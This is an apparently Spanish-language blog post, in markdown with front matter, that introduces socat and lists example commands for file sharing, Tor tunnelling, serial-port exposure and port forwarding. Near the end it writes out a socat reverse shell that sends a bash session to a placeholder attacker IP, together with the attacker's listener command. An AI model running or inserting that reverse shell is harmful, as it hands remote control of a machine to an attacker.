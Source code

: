 ```yaml
---
title: Socat - Multipurpose relay
date: 2025-07-15 00:00:00 +0200
categories: [software, herramientas]
tags: [herramientas, socat]     # TAG names should always be lowercase
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/1/15/Cat_August_2010-4.jpg/1920px-Cat_August_2010-4.jpg
    alt: 
---
```

# Socat

Socat actúa como un relay (retransmisor) o intermediario entre dos flujos de datos, que pueden ser:
- sockets TCP o UDP
- archivos
- pseudoterminales
- dispositivos seriales
- procesos, etc.

Es como un fontanero, capaz de conectar todo tipo de cosas entre sí. 
La página oficial del proyecto es esta dest-unreach.org/socat 

## Ejemplos uso

Compartir un archivo:

``` shell
socat TCP-LISTEN:1234,reuseaddr,fork FILE:/ruta/al/archivo.txt
``` 

Conectar una aplicación que no soporta proxies a través de TOR:

``` shell
socat TCP-LISTEN:1234,reuseaddr,fork SOCKS5:127.0.0.1:irc.hidden.onion:6667,socksport=9050
```

Exponer un puerto serie (USB) por red

``` shell
socat TCP-LISTEN:5000,reuseaddr,fork FILE:/dev/ttyUSB0,raw,echo=0
```

Simular una conexión
``` shell
socat TCP:192.168.1.210:21 -
```

Redireccionar un puerto 

``` shell
socat TCP-LISTEN:8080,fork TCP:192.168.1.100:80,sourceport=12345
```

Reverse Shell (escucha)

``` shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane TCP:<IP_DEL_ATACANTE>:4444
```

Reverse Shell (cliente/atacante)

``` shell
socat file:`tty`,raw,echo=0 TCP-LISTEN:4444,reuseaddr
``` 

Parece que Socat podría convertirse en el sucesor legítimo de Netcat llamado "la navaja suiza de los hackers", pues Socat es más complejo y 
avanzado y tiene más funcionalidades.  

Socat puede ser una buena herramienta para resolver problemas de red y una buena solución "in situ" para resolver tareas que de otra manera requerían la instación de software adicional, servidores o middelware, etc. 



